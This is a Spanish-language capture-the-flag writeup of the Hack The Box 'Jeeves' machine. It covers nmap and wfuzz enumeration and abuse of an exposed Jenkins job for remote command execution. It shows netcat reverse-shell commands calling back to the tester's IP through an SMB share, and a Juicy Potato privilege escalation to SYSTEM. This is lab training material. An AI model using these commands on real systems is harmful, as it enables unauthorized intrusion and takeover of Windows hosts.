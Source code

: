 ```yaml
---
title: Jeeves Writeup
date: 2022-08-09
categories: [Writeup, HTB]
tags: [Windows, Jenkins, RCE, CMD, Powershell]
image:
  path: /assets/img/jeeves/jeeves.png
  width: 500 #normal 800
  height: 500 #normal 500
  alt: jeeves
---
```


# Maquina windows JEEVES.
En esta maquina tendremos que hacer RCE desde una aplicacion llamada JENKINS con una version vulnerable, que nos permite ejecutar comandos de windows cmd o powershell , ejecutaremos comandos para obtener una revershell.

# Reconocimiento.
Con nmap ejecutamos el reconocimiento.

````bash
>nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn -oG scan 10.10.10.63
 
>Host: 10.10.10.63 ()	Status: Up
Host: 10.10.10.63 ()	
Ports: 80/open/tcp//http/// 
135/open/tcp//msrpc/// 
445/open/tcp//microsoft-ds/// 
50000/open/tcp//ibm-db2/// Ignored State: filtered (65531)
```` 

Copiamos los puertos abiertos y ejecutamos con nmap 

````bash
>nmap -sCV -p80,135,445,50000 -Pn -oN scanport 10.10.10.63

>PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-09-08T21:10:39
|_  start_date: 2022-09-08T21:07:37
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m58s
`````

# Enumeracion
Vamos a revisar los puertos abiertos 80,135,445,50000

## Puerto 445
Usamos  crackmapexec  para obtener informacion de la maquina, vemos que es un windows 10 el nombre del dominio y el nombre da la maquina.

````bash
>crackmapexec smb 10.10.10.63

>SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False)
`````

Con smbclient vemos que no tenemos acceso a recursos compartidos.

````bash
>smbclient -L 10.10.10.63 -N

>session setup failed: NT_STATUS_ACCESS_DENIED
`````

## Puerto 80.
Vamos a la url http://10.10.10.63 

![imagen-de-prueba](/assets/img/jeeves/pagina-puerto-80.png)


Vemos que la pagina nos muestra algo sencillo y un campo para hacer preguntas, hacemos una prueba ingresando algo en el campo search pero la pagina nos redireciona a una imagen que habla de un error 

![imagen-de-prueba](/assets/img/jeeves/error-pagina-80.png)
# Puerto 50000
Revisando el scanport de nmap vemos el puerto 50000 abierto con un servicio 

````bash
50000/tcp open  http         `Jetty 9.4.z-SNAPSHOT`
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
`````

Vamos a la url http://10.10.10.63:50000 

![imagen-de-prueba](/assets/img/jeeves/puerto-50000.png)


Viedo esto intentamos realizar un escaneo con wfuzz a la url con el puerto 50000.

````bash
>wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63:50000/FUZZ
`````

Despues de unos minutos el escaneo nos da el una ruta llamada `askjeeves`

![imagen-de-prueba](/assets/img/jeeves/wfuzz.png)

Vamos a la url con la nueva ruta http://10.10.10.63:50000/askjeeves, nos lleva a jenkins que es un servidor de automatizacion.

![imagen-de-prueba](/assets/img/jeeves/jenkins.png)


Tenemos un panel donde investigando un poco vemos q podemos crear tareas

![imagen-de-prueba](/assets/img/jeeves/jenkins-2.png)

Analizando un poco vemos que la tarea nos permite ejecutar comandos windows con cme o powershell, viendo esto ya imaginamos vias potenciales para acceder al sistema.

![imagen-de-prueba](/assets/img/jeeves/jenkins-tareas.png)

![imagen-de-prueba](/assets/img/jeeves/comandos-cmd .png)

Creamos la tarea con un comando por cmd para hacer un ping a mi maquina.
 
![imagen-de-prueba](/assets/img/jeeves/pingg.png)

Ejecuto tcpdump para ver si mi maquina responde al ping

````bash
>sudo tcpdump -i tun0 icmp
`````

![imagen-de-prueba](/assets/img/jeeves/tcpdump.png)


Como se ve en la imagen tengo respuesta y ya conesto sabemos que el servidor jenkins es vulnerable y se puede hacer un RCE.

# Intrusion 
Tenemos conocimiento de que podemos hacer RCE con el servidor jenkins, hay muchas formas de ejecutar comandos para tener acceso remoto a la maquina, yo lo hare con smbserver para crear un recurso compartido y luego creo una tarea en jenkins que ejecute un comando para generar una revershell.

1. Con smbserver creo un recurso compartido.

````bash
>sudo impacket-smbserver smbFolder $(pwd) -smb2support 
`````

2. Descargo netcatx64.exe y lo guardo en la ruta de mi recurso compartido.

3. Creo la tarea en jenkins y agrego el siguiente comando.

````bash
>\\10.10.14.16\smbFolder\ncx64.exe -e cmd 10.10.14.16 443
`````

4. Nos ponemos en escucha con nc ,el smbserver esta activo , ejecutamos la tarea y obtenemos una revershell

![imagen-de-prueba](/assets/img/jeeves/revershell.png)


# Escalar privilegios 
Una vez dentro de la maquina vemos que estamos con el usuario `kohsuke`, ejecutemos algunos comandos que nos de informacion de este usuario.

````bash
>whoami /priv
`````

imagen de seimpersonal


El usuario cuenta con el `SeImpersonatePrivilege` lo cual nos proporciona una forma de escalar privilegios, para eso usamos una herramienta llamada `Juicy Potato` que nos permite escalar desde una cuenta normal y ejecutar comandos como `NT AUTHORITY\SYSTEM`.

1. Descargamos desde github el binario .exe
2. Subimos el binario a la maquina victima
3. Ejecutamos el siguiente comando para escalar privilegios.

````bash
.\jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443"

##La ruta del ejemplo es de donde almacene el netcat
`````

![imagen-de-prueba](/assets/img/jeeves/revershelladmin.png)
